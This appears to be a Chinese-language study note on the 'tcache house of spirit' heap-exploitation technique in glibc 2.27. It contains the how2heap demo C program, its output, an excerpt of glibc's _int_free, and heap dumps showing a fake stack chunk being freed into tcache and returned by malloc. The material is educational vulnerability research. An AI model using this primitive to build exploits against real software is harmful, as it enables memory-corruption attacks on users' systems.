


```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
	setbuf(stdout, NULL);

	printf("This file demonstrates the house of spirit attack on tcache.\n");
	printf("It works in a similar way to original house of spirit but you don't need to create fake chunk after the fake chunk that will be freed.\n");
	printf("You can see this in malloc.c in function _int_free that tcache_put is called without checking if next chunk's size and prev_inuse are sane.\n");
	printf("(Search for strings \"invalid next size\" and \"double free or corruption\")\n\n");

	printf("Ok. Let's start with the example!.\n\n");


	printf("Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	printf("Let's imagine we will overwrite 1 pointer to point to a fake chunk region.\n");
	unsigned long long *a; //pointer that will be overwritten
	unsigned long long fake_chunks[10]; //fake chunk region

	printf("This region contains one fake chunk. It's size field is placed at %p\n", &fake_chunks[1]);

	printf("This chunk size has to be falling into the tcache category (chunk.size <= 0x410; malloc arg <= 0x408 on x64). The PREV_INUSE (lsb) bit is ignored by free for tcache chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
	printf("... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size


	printf("Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	printf("... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");

	a = &fake_chunks[2];

	printf("Freeing the overwritten pointer.\n");
	free(a);

	printf("Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	void *b = malloc(0x30);
	printf("malloc(0x30): %p\n", b);

	assert((long)b == (long)&fake_chunks[2]);
}
```

运行结果

```
This file demonstrates the house of spirit attack on tcache.
It works in a similar way to original house of spirit but you don't need to create fake chunk after the fake chunk that will be freed.
You can see this in malloc.c in function _int_free that tcache_put is called without checking if next chunk's size and prev_inuse are sane.
(Search for strings "invalid next size" and "double free or corruption")

Ok. Let's start with the example!.

Calling malloc() once so that it sets up its memory.
Let's imagine we will overwrite 1 pointer to point to a fake chunk region.
This region contains one fake chunk. It's size field is placed at 0x7ffc79fd8c88
This chunk size has to be falling into the tcache category (chunk.size <= 0x410; malloc arg <= 0x408 on x64). The PREV_INUSE (lsb) bit is ignored by free for tcache chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. 
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffc79fd8c88.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffc79fd8c88, which will be 0x7ffc79fd8c90!
malloc(0x30): 0x7ffc79fd8c90
```


glibc 的堆内存管理从 glibc 2.27 开始引进 tcache 机制来加速分配，glibc2.27 的 tcache 的操作完全没有检查

就连 double free 都不会检测，对一个 chunk 连续两次 free 都不会报错

源码：

```c
static void
_int_free (mstate av, mchunkptr p, int have_lock)
{
  INTERNAL_SIZE_T size;        /* its size */
  mfastbinptr *fb;             /* associated fastbin */
  mchunkptr nextchunk;         /* next contiguous chunk */
  INTERNAL_SIZE_T nextsize;    /* its size */
  int nextinuse;               /* true if nextchunk is used */
  INTERNAL_SIZE_T prevsize;    /* size of previous contiguous chunk */
  mchunkptr bck;               /* misc temp for linking */
  mchunkptr fwd;               /* misc temp for linking */

  size = chunksize (p);

  /* Little security check which won't hurt performance: the
     allocator never wrapps around at the end of the address space.
     Therefore we can exclude some size values which might appear
     here by accident or by "design" from some intruder.  */
  if (__builtin_expect ((uintptr_t) p > (uintptr_t) -size, 0)
      || __builtin_expect (misaligned_chunk (p), 0))
    malloc_printerr ("free(): invalid pointer");
  /* We know that each chunk is at least MINSIZE bytes in size or a
     multiple of MALLOC_ALIGNMENT.  */
  if (__glibc_unlikely (size < MINSIZE || !aligned_OK (size)))
    malloc_printerr ("free(): invalid size");

  check_inuse_chunk(av, p);

#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);

    if (tcache
	&& tc_idx < mp_.tcache_bins
	&& tcache->counts[tc_idx] < mp_.tcache_count)
      {
	tcache_put (p, tc_idx);
	return;
      }
  }
#endif
```

可以看到的是 每当 free 一个 chunk 时，会检查 tcache 是否已经初始化，chunk 的 size 是否符合放入 tcache，检查通过就会把 chunk 放入 tcache，完全没有任何检查

2.27 的 tcache 的源码注释：https://github.com/zero-MK/note/blob/master/how2heap/2.27/tcache_house_of_spirit/tcache.c


在这个 demo 中，把 fake_chunks[10] 对应的内存空间伪造成一个 chunk

fake_chunks[1] 对应的就是 chunk 的 size 字段

```c
fake_chunks[1] = 0x40
```

伪造一个大小为 0x40 的 chunk

然后 让 a 指向 fake_chunks[2]

```c
a = &fake_chunks[2];
```

没有 free a 前的 heap

```
Allocated chunk | PREV_INUSE
Addr: 0x555555559000
Size: 0x251

Allocated chunk | PREV_INUSE
Addr: 0x555555559250
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x555555559270
Size: 0x20d91
```

free a

```c
free(a);
```



可以看到现在 fake_chunks 已经被放入 tcache，再次 malloc 一个大小为 0x40 的 chunk 就会得到一个指向 0x7fffffffdee0 的指针

